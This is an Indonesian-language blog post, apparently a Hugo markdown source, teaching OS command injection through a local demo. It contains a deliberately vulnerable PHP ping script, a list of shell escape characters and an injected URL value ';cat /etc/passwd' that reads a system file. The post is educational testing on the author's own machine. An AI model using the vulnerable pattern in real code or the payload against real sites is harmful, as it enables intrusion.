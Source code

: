 ```yaml
---
title: tentang vulnerability os-command injection 
date: 2022-09-01
tags: ["pentest"]
---
```

{{< raw >}}
<img src="/images/cuteheker.jpeg">
{{< /raw >}}

<br>
<br>

os command injection biasanya terjadi ketika seorang web developer keliru
dalam mengatur penerimaan input didalam situsnya. biasanya terjadi ketika
form input yang dibuat menggunakan fungsi seperti `exec()`, `system()`, dll.
tergantung fungsi tersebut berasal dari bahasa pemogramman apa. jika python
biasanya menggunakan `os.system()` atau `eval()`, etc.

tentu saja ini jadi sesuatu yang sangat berbahaya dikarenakan attacker dapat
memasukan perintah berbahaya kedalam shell sistem operasi yang ada disitus tersebut.

>Serangan command injection bisa terjadi ketika sebuah aplikasi 
>(forms, cookies, HTTP headers, dll) bisa menjalankan perintah yang 
>tidak aman dari inputan user ke sistem shell. 
{{< raw >}}
<a href="https://crashtest-security.com/command-injection/">crashtest security</a>
{{< /raw >}}

menurut crashtest security, os command injection tidak hanya bisa terjadi
di forms melainkan bisa saja ditempat lain seperti diatas.

# demonstrasi

contoh kode php yang rentan dengan os command injection karena ketiadaan
validasi input ataupun proses filtering.

```shell 
<?php
$ip = $_GET['ip'];
$cmd = system('ping '.$ip); 

echo $cmd
?>
```

- buat file `ping.php` & jalankan diterminal kalian

`$ php -S 127.0.0.1:8000 -t .`


kunjungi dan cobalah masukan input seperti ini

**http://127.0.0.1:8000/ping.php?ip=cat%20/etc/passwd**

maka jika dibrowser saya, ini tidak menghasilkan apa-apa. dikarenakan perintah
**cat /etc/passwd** masih dianggap sebagai argumen untuk ping.

```shell
[Thu Sep  1 18:16:34 2022] 127.0.0.1:41126 Accepted
ping: unknown host cat
[Thu Sep  1 18:16:34 2022] 127.0.0.1:41125 [200]: GET /ping.php?ip=cat%20/etc/passwd
[Thu Sep  1 18:16:34 2022] 127.0.0.1:41125 Closing
```

bisa dilihat disana ada pesan **uknown host cat**. yang menandakan perintah cat 
kita dianggap destination dari ping. nah kalian bisa mencoba nya lagi
dengan membatalkan perintah ping dengan shell escapes.

```
;
|
||
<
&
&&
$()
```


let's try again


**http://127.0.0.1:8000/ping.php?ip=;cat /etc/passwd**



maka kalian bisa melihat bahwa disini kita berhasil untuk melakukan perintah cat
terhadap file passwd.

{{< raw >}}
<img src="/images/oci.jpg">
{{< /raw >}}

btw saya ngejalanin file php nya di termux, jadi output dari **/etc/passwd** nya
agak aneh hhe.




# other references
beberapa referensi lain yang membahas command injection lebih detail.

- command injection 
https://book.hacktricks.xyz/pentesting-web/command-injection

